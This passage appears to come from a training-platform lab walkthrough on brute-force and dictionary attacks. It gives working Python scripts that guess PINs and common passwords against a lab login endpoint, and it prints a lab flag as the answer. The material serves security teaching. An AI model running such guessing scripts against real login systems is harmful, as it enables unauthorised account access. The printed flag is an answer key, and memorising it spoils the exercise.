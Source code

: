 ```python3
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

Subsequently, students will run the script and will attain the correct PIN code and gain the flag:

Code: shell

```shell
python3 solver.py
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-vxsusos1qt]─[~]
└──╼ [★]$ python3 solver.py 

Correct PIN found: 3424
Flag: {hidden}
```

Answer: `HTB{Brut3_F0rc3_1s_P0w3rfu1}`

# Dictionary Attacks

## Question 1

### "After successfully brute-forcing the target using the script, what is the full flag the script returns?"

After spawning the target, students will save the following Python3 PIN brute-force script as `solver.py` based on their STMIP and STMPO in the `ip` and `port` variables:

Code: python3

```python3
import requests

ip = "STMIP"  # Change this to your instance IP address
port = STMPO       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    
    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```
